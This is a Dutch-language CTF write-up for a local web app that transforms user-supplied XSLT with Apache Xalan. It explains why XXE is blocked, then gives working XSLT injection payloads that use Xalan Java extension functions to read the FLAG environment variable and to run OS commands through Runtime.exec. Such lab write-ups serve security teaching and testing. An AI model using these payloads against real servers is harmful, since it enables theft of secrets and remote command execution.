





# Writeup Transformer-Bay

De challenge draait om een webapp waarmee een XML-document met een zelf opgegeven XSLT-stylesheet kan worden getransformeerd.

De pagina noemt zichzelf een `Partner stylesheet workbench`: partners kunnen hun XML en de bijbehorende transformatie testen voordat deze wordt gebruikt.




Start de docker en daarna is de webapp beschikbaar op:

```text
http://localhost:8093
```

## Eerste checks

Op de pagina staan standaard een XML-document en een XSLT-stylesheet ingevuld:

```xml
<shipment>
  <reference>NHC-2026-0042</reference>
</shipment>
```

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
 xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
 <xsl:template match="/">
  <output><xsl:value-of select="shipment/reference"/></output>
 </xsl:template>
</xsl:stylesheet>
```

Als we op `Run transformation` klikken, gebruikt de stylesheet het XPath `shipment/reference` om de waarde uit het XML-document te halen. De output wordt dan:


We hebben dus volledige controle over zowel het XML-document als de XSLT-stylesheet die op de server wordt uitgevoerd.

## Source checken

Wat we uiteindelijk willen hebben is de flag. In `docker-compose.yml` zien we dat deze als environment variable aan de Java-applicatie wordt meegegeven:

```yaml
environment:
  PORT: "8080"
  FLAG: "CTF{f4k3_fl4g_f0r_t3st1ng}"
```

De applicatie leest de velden `xml` en `xslt` rechtstreeks uit de POST request:

```java
Map<String, String> form = form(new String(body, StandardCharsets.UTF_8));
String xml = form.get("xml");
String xslt = form.get("xslt");
if (xml == null || xslt == null || xml.isBlank() || xslt.isBlank()) {
    send(exchange, 400, "text/plain", "xml and xslt are required");
    return;
}
```

Normaliter als we zoiets zien (XML-parsing) bij een webapp denken we gelijk aan XXE. Daarmee zouden we bijvoorbeeld een lokaal bestand proberen te lezen via een external entity. Het probleem is echter dat de webapp hier iedere input waarin een `DOCTYPE` staat blokkeert: 

```java
if (xml.contains("<!DOCTYPE") || xslt.contains("<!DOCTYPE")) {
    send(exchange, 400, "text/plain", "document type declarations are not accepted");
    return;
}
```

De XML-parser is daarnaast zo gemaakt dat DTD's en externe entities worden geblocked:

```java
factory.setXIncludeAware(false);
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

Een normale XXE-payload is hierdoor (als het goed is) niet mogelijk.

## XSLT injection

Het interessante stuk is welke XSLT-engine wordt gebruikt:

```java
import org.apache.xalan.processor.TransformerFactoryImpl;
```

```java
TransformerFactoryImpl factory = new TransformerFactoryImpl();
Transformer transformer = factory.newTransformer(source(xslt));
StringWriter output = new StringWriter();
transformer.transform(source(xml), new StreamResult(output));
```

In `pom.xml` zien we ook de exacte dependency:

```xml
<dependency>
  <groupId>xalan</groupId>
  <artifactId>xalan</artifactId>
  <version>2.7.3</version>
</dependency>
```

Apache Xalan ondersteunt Java-extension functions in XSLT. Via een speciale XML-namespace kunnen we een Java-class koppelen aan een prefix en daarna methods van die class vanuit een XPath-expressie aanroepen.

Voor `java.lang.System` ziet die namespace er zo uit:

```xml
xmlns:sys="http://xml.apache.org/xalan/java/java.lang.System"
```

De prefix `sys` verwijst vanaf dat moment naar de Java-class `java.lang.System`. Die class heeft de static method:

```java
System.getenv(String name)
```

Daarom kunnen we vanuit XSLT de environment variable `FLAG` opvragen met:

```xml
<xsl:value-of select="sys:getenv('FLAG')"/>
```

De XXE blocking helpt hier niet tegen. De payload gebruikt geen `DOCTYPE`, externe entity of extern bestand. Xalan voert rechtstreeks de Java-extension function uit tijdens de transformatie.

## Solve

Voor de source XML kunnen we de standaard XML laten staan. De template matcht de root van ieder geldig XML-document en gebruikt de inhoud verder niet.

De uiteindelijke solve payload voor het veld `XSLT stylesheet` is:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
 xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
 xmlns:sys="http://xml.apache.org/xalan/java/java.lang.System">
 <xsl:template match="/">
  <xsl:value-of select="sys:getenv('FLAG')"/>
 </xsl:template>
</xsl:stylesheet>
```


De payload doet het volgende:

1. `xmlns:sys` koppelt de prefix `sys` aan `java.lang.System` via de Xalan Java-extension namespace.
2. `<xsl:template match="/">` zorgt dat de template op de root van het XML-document wordt uitgevoerd.
3. `sys:getenv('FLAG')` roept de static Java-method `System.getenv("FLAG")` aan.
4. `<xsl:value-of>` schrijft de teruggegeven flag naar het transformatieresultaat.

De applicatie zet de output daarna in een `<pre>` element. Special HTML-chars worden escaped, maar de value van de flag blijft gewoon leesbaar.


## Extra: Command execution

Dezelfde Xalan Java-extension functions kunnen ook worden gebruikt voor command execution. In plaats van `java.lang.System` voegen we namespaces toe zoals `Runtime`, `Process`, `InputStreamReader` en `BufferedReader`.

Met de volgende XSLT-payload voeren we als voorbeeld het command `id` uit:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
 xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
 xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
 xmlns:proc="http://xml.apache.org/xalan/java/java.lang.Process"
 xmlns:isr="http://xml.apache.org/xalan/java/java.io.InputStreamReader"
 xmlns:br="http://xml.apache.org/xalan/java/java.io.BufferedReader">
 <xsl:template match="/">
  <xsl:variable name="runtime" select="rt:getRuntime()"/>
  <xsl:variable name="process" select="rt:exec($runtime, 'id')"/>
  <xsl:variable name="reader"
   select="br:new(isr:new(proc:getInputStream($process)))"/>
  <xsl:value-of select="br:readLine($reader)"/>
 </xsl:template>
</xsl:stylesheet>
```

`rt:getRuntime()` haalt de huidige Java-runtime op en `rt:exec($runtime, 'id')` start het command. Daarna halen `proc:getInputStream`, `InputStreamReader` en `BufferedReader` de stdout van het proces op. `readLine()`. Dan krijgen we dit:



